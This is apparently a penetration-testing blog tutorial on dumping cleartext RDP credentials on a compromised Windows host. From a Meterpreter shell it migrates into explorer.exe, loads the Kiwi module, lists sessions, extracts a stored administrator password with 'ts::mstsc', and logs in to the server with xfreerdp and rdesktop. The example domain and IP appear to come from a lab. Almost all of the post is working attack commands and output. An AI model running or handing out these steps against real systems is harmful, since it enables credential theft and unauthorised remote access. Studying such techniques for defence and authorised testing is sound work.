 ```yaml
---
layout: post
title: "Dumping RDP Credentials For Logged In User"
date: "2022-02-28"
description: "Dumping RDP Credentials For Logged In User"
coverimage: Dumping_RDP_Credentials_For_Logged_In_User.jpg
tags: 
published: true
posttype: article
categories: tutorial
---
```

In this tutorial, we will assume you have a Meterpreter Shell On a Windows Box

Migrate current process into `explorer.exe`
```
migrate -N explorer.exe
```

Take a look at the systems running processes. Here we are looking for  `mstsc.exe`. The `mstsc.exe` 

"Creates connections to Remove Desktop Session Host Servers of other remote computers."

Source:
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc

Now we load the Kiwi Module in Meterpreter
```
load kiwi
```

Now we want to look if there are any active sessions running using the kiwi module
```
kiwi_cmd ts::sessions
```

Example output below. Here we can see one active Administrator from the marvel domain. 
```

Session: 0 - Services
  state: Disconnected (4)
  user :  @ 
  curr : 2/28/2022 12:16:21 AM
  lock : no

Session: *1 - Console
  state: Active (0)
  user : Administrator @ MARVEL
  Conn : 2/27/2022 11:08:55 PM
  logon: 2/27/2022 11:09:03 PM
  curr : 2/28/2022 12:16:21 AM
  lock : no

Session: 65536 - RDP-Tcp
  state: Listen (6)
  user :  @ 
  lock : no
```

Attempt to drop clear text credentials. 
```
kiwi_cmd ts::mstsc
```

Example output
```
ServerName                                [wstring] '10.10.10.250'
ServerFqdn                                [wstring] ''
UserSpecifiedServerName                   [wstring] '10.10.10.250'
UserName                                  [wstring] 'Administrator'
Domain                                    [wstring] 'MARVEL'
Password                                  [protect] 'Passw0rd!'
SmartCardReaderName                       [wstring] ''
PasswordContainsSCardPin                  [ bool  ] FALSE
ServerNameUsedForAuthentication           [wstring] '10.10.10.250'
RDmiUsername                              [wstring] ''
```

Now RDP into the box. 
```
xfreerdp /u:Administrator /p:Passw0rd! /v:10.10.10.250
rdesktop -u Administrator -p Passw0rd! 10.10.10.250
```